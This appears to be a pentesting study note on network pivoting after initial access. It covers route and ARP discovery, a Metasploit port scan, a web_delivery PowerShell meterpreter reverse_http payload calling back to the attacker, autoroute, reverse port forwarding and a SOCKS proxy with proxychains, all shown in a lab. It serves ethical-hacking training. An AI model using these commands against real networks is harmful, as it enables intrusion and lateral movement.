 # Pivoting

## Metasploit

### Check routes on a win machine

- We need to see what other access has our target machine

- `route print`
  ```
  C:\Windows\system32>route print
  route print
  ===========================================================================
  Interface List
   12...08 00 27 ae c1 68 ......Intel(R) PRO/1000 MT Desktop Adapter
    1...........................Software Loopback Interface 1
  ===========================================================================

  IPv4 Route Table
  ===========================================================================
  Active Routes:
  Network Destination        Netmask          Gateway       Interface  Metric
            0.0.0.0          0.0.0.0     192.168.57.1        10.0.2.15     25
           10.0.2.0    255.255.255.0         On-link         10.0.2.15    281
          10.0.2.15  255.255.255.255         On-link         10.0.2.15    281
         10.0.2.255  255.255.255.255         On-link         10.0.2.15    281
          127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
          127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
    127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         10.0.2.15    281
    255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    255.255.255.255  255.255.255.255         On-link         10.0.2.15    281
  ===========================================================================
  Persistent Routes:
    None

  IPv6 Route Table
  ===========================================================================
  Active Routes:
   If Metric Network Destination      Gateway
    1    331 ::1/128                  On-link
   12    281 fe80::/64                On-link
   12    281 fe80::857:534f:3bb0:8fce/128
                                      On-link
    1    331 ff00::/8                 On-link
   12    281 ff00::/8                 On-link
  ===========================================================================
  Persistent Routes:
    None
  ```

- `arp -a`
  ```
  Interface: 10.0.2.15 --- 0xc
  Internet Address      Physical Address      Type
  10.0.2.3              08-00-27-35-94-d3     dynamic   
  10.0.2.4              08-00-27-fc-72-e9     dynamic   
  10.0.2.5              08-00-27-7f-90-90     dynamic   
  10.0.2.8              08-00-27-1d-d2-98     dynamic   
  10.0.2.255            ff-ff-ff-ff-ff-ff     static    
  192.168.57.1          52-54-00-12-35-00     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
  ```

- Now that we have other interesting IPs we can try to reach those new ones
- We can make a port scan on one of these IPs
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 10.0.2.5`
- `set ports 445`
- `run`
  ```
  [+] 10.0.2.5:             - 10.0.2.5:445 - TCP OPEN
  [*] 10.0.2.5:             - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```  
  We could of course have set more ports and this would be a cool nmap like tool.
  

## Reverse port forwarding and Session Passing with Metasploit having initial shell on Covenant

- We can assume that we have a shell with covenant for instance
- We generate a payload with metasploit through web delivery (more stealthy because it can pass as http traffic)
- `use exploit/multi/script/web_delivery`
- `set target 2` (for powershell)
- `set payload windows/x64/meterpreter/reverse_http`
- set lhost to your attacking machine
- sel an lport 
- `exploit -j`
- Now we can copy the payload and paste to our grunt in Covenant
- Metasploit should now have opened a session
- We can choose an interface with `ipconfig`
- `run autoroute -s 192.168.16.0/24`
- We can check it's been done using `run autoroute -p`
- We can now set up a reverse port forward
- `portfwd add -R -p 1234 -l 443 -L ATTACKING-MACHINE-IP`
- We can check it's been done using `portfwd`
- we can background our session with CTRL-Z 
- We will setup a socks proxy `use auxiliary/server/socks4a`
- We need to check our port in `/etc/proxychains4.conf`
- `set srvport 9050`
- we can check our jobs using `jobs`
- We can kill the web delivery one that we do not need anymore `jobs -k ID-OF-JOB`
- We now need to create a listener on covenant that will interact with the port forward set previously:
  `1      192.168.3.28:443  0.0.0.0:1234  Reverse`
- BindAddress can stay at 0.0.0.0, BindPort should be 443, connectPort should be 1234 and connect address is the ip of our victime machine.
- We should now be able to reach other machine in the network of the initial machine that has now route to our attacking machine using proxychains


## Resources

{% embed url="https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/" %} Amazing Resource about pivoting but only in french, it could def be read using google translate {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} TCM Security Academy - Practical Ethical Hacking - The Complete Course {% endembed %}

